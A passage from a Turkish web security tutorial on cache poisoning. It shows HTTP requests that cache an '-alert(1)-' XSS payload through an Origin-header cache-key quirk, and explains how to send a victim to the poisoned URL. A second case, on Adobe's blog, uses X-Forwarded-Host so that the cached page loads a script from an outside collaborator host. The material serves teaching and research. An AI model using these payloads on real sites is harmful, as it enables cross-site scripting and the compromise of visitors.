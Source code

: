 ```bash
HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__
```

**İkinci istek:**

```bash
GET /?x=2__Origin='-alert(1)-' HTTP/1.1
```

```bash
HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'__
X-Cache: TCP_HIT

<script>…'-alert(1)-'…</script>
```

İlk isteği kendiniz yaparak ve kurbanınızı ikinci URL'ye yönlendirerek bu XSS'yi sömürülebilir hale getirmiş olursunuz. Çünkü ilk istek ile `Origin` başlığının önbelleğe alınmasını sağlarsınız. İkinci istekte ise `__` ayrıştırma karakteri kaldırılmadan önbelleğe alındığı için, önbellek mekanizmasını kandırarak bir önceki istek neticesinde oluşturan önbellek anahtarı ile mevcut isteğin aynı olması sağlanmış olur. 

## Dahili Önbellek Zehirlenmesi

Önbellek zehirlemesi saldırıları genellikle karmaşık ve dikkatle yürütülmesi gereken işlemler olsa da, bazıları o kadar pratiktir ki güvenli bir şekilde gerçekleştirilmeleri neredeyse imkansızdır. İşte Adobe'nin blogunda yaşanan bir örnek vaka:

**İstek:**

```bash
GET /access-the-power-of-adobe-acrobat?dontpoisoneveryone=1 HTTP/1.1
Host: theblog.adobe.com
X-Forwarded-Host: collaborator-id.psres.net
```

Bu istekten sonra, araştırmacının Burp Collaborator sunucusuna, Adobe'nin web sitesinin her yerinden gelen yoğun bir trafik akışı oluşmuş. İncelendiğinde, Adobe'nin WP Rocket Cache adında entegre bir uygulama düzeyinde önbellek kullandığı ortaya çıkmış. Uygulama düzeyindeki dahili önbellekler, yanıtların parçalarını ayrı ayrı önbelleğe alır ve genellikle bir önbellek anahtarı kavramına sahip değildir.

**Sonuç:**

```bash
GET / HTTP/1.1
Host: theblog.adobe.com
```

```bash
HTTP/1.1 200 OK
X-Cache: HIT - WP Rocket Cache
...
<script src="https://collaborator-id.psres.net/foo.js"/>
...
<a href="https://collaborator-id.psres.net/post">…
```
